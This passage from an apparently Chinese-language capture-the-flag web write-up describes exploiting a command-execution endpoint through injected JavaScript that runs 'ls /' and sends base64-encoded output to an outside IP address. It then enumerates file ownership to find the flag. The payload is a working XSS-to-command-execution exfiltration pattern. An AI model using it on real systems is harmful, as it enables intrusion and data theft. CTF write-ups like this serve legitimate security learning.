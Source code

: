 可以发现admin.php中有一个admin/a0a.php?cmd=whoami，明显的命令执行。但是一直弹不回来shell，不知道为什么，只好用ajax把命令执行的结果反弹回来。
![](assets/webwp-82d31b8a.png)
构造
```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://47.106.142.99:8012/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","a0a.php?cmd=ls /",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```
![](assets/webwp-1f42159a.png)
但是读取flag会发现返回为空，执行ls -al /发现flag文件属于flag用户，且其他用户无法读取。
![](assets/webwp-32e6e4be.png)
通过ls我们发现了一个MD5名字的目录，ls一下发现有upload.php，并且属于flag用户。